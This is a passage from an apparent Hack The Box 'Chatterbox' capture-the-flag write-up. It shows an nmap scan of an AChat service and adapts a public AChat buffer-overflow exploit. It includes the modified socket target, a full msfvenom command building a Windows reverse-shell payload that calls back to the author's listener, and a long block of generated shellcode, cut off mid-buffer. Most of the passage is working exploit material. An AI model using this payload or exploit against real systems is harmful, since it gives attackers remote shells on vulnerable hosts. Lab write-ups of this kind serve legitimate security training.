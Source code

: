 PORT STATE SERVICE REASON VERSION
9255/tcp open http syn-ack ttl 127 AChat chat system httpd
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open achat syn-ack ttl 127 AChat chat system

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.05 seconds
[root:~/Desktop/chatterbox]#</pre>

Webserver on 9255 port lets check it out. I&#8217;ll not waste your time but I couldn&#8217;t find any pages even after a dirsearch.

I googled AChat looking for a vulnerability and found this https://www.exploit-db.com/exploits/36025/

I modified the script to point to the server

<pre># Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('10.10.10.74', 9256)</pre>

and modified the payload to run a reverse_tcp

<pre>msfvenom -a x86 -platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.234 LPORT=12343 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python</pre>

This gave me the following code which i pasted in to the python script

<pre>buf = "" 
buf += "\x50\x50\x59\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49"
buf += "\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41\x49\x41"
buf += "\x49\x41\x49\x41\x49\x41\x6a\x58\x41\x51\x41\x44\x41" 
buf += "\x5a\x41\x42\x41\x52\x41\x4c\x41\x59\x41\x49\x41\x51"
buf += "\x41\x49\x41\x51\x41\x49\x41\x68\x41\x41\x41\x5a\x31"
buf += "\x41\x49\x41\x49\x41\x4a\x31\x31\x41\x49\x41\x49\x41"
buf += "\x42\x41\x42\x41\x42\x51\x49\x31\x41\x49\x51\x49\x41"
buf += "\x49\x51\x49\x31\x31\x31\x41\x49\x41\x4a\x51\x59\x41"
buf += "\x5a\x42\x41\x42\x41\x42\x41\x42\x41\x42\x6b\x4d\x41"
buf += "\x47\x42\x39\x75\x34\x4a\x42\x79\x6c\x4b\x38\x61\x72"
buf += "\x6d\x30\x59\x70\x59\x70\x71\x50\x55\x39\x69\x55\x4e"
buf += "\x51\x35\x70\x42\x44\x34\x4b\x42\x30\x30\x30\x54\x4b"
buf += "\x61\x42\x6c\x4c\x52\x6b\x50\x52\x7a\x74\x54\x4b\x44"
buf += "\x32\x6e\x48\x4c\x4f\x34\x77\x30\x4a\x4d\x56\x6d\x61"
buf += "\x59\x6f\x44\x6c\x6f\x4c\x4f\x71\x71\x6c\x79\x72\x4e"
buf += "\x4c\x6b\x70\x65\x71\x78\x4f\x6c\x4d\x39\x71\x46\x67"
buf += "\x7a\x42\x4a\x52\x61\x42\x4f\x67\x42\x6b\x52\x32\x4a"
buf += "\x70\x54\x4b\x30\x4a\x6f\x4c\x52\x6b\x50\x4c\x6a\x71"
buf += "\x44\x38\x7a\x43\x51\x38\x4d\x31\x67\x61\x6f\x61\x32"
buf += "\x6b\x32\x39\x4f\x30\x59\x71\x68\x53\x74\x4b\x6f\x59"
buf += "\x6e\x38\x37\x73\x6e\x5a\x4e\x69\x44\x4b\x4c\x74\x74"
buf += "\x4b\x4b\x51\x69\x46\x30\x31\x4b\x4f\x74\x6c\x56\x61"
buf += "\x48\x4f\x5a\x6d\x49\x71\x75\x77\x6c\x78\x49\x50\x74"
buf += "\x35\x6b\x46\x39\x73\x53\x4d\x78\x78\x6f\x4b\x43\x4d"
buf += "\x6e\x44\x64\x35\x6b\x34\x42\x38\x54\x4b\x42\x38\x4f"
buf += "\x34\x7a\x61\x37\x63\x33\x36\x62\x6b\x4c\x4c\x4e\x6b"
buf += "\x74\x4b\x51\x48\x4d\x4c\x49\x71\x59\x43\x64\x4b\x6c"
buf += "\x44\x74\x4b\x4b\x51\x68\x50\x73\x59\x4e\x64\x4c\x64"
buf += "\x6e\x44\x51\x4b\x51\x4b\x43\x31\x71\x49\x4e\x7a\x4f"
buf += "\x61\x49\x6f\x77\x70\x61\x4f\x71\x4f\x4f\x6a\x44\x4b"
buf += "\x4c\x52\x5a\x4b\x74\x4d\x71\x4d\x52\x48\x6f\x43\x30"